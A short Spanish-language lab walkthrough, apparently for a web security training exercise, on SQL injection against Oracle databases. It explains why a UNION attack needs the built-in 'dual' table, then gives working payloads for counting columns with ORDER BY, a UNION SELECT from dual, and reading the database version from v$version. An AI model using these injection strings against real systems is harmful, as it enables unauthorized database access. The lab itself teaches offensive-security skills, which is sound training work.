


En las bases de datos Oracle, cada `SELECT`instrucción debe especificar una tabla para seleccionar `FROM`. Si su `UNION SELECT`ataque no realiza una consulta desde una tabla, deberá incluir la `FROM`palabra clave seguida de un nombre de tabla válido.

En Oracle hay una tabla incorporada `dual`que se puede utilizar para este fin. Por ejemplo:`UNION SELECT 'abc' FROM dual`



Enumeramos el total de columnas que devuelve la anterior consulta

```c
Accessories'order by 2--
```

Luego de enumerar el numero de columnas podemos hacer nuestra consulta maliciosa

```c
'union select null, null from dual--
```

De la siguiente manera podemos enumerar la versión de la base de datos

```c
'union select 'a',banner from v$version--
```

Podemos ayudarnos de [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md#oracle-sql-default-databases)


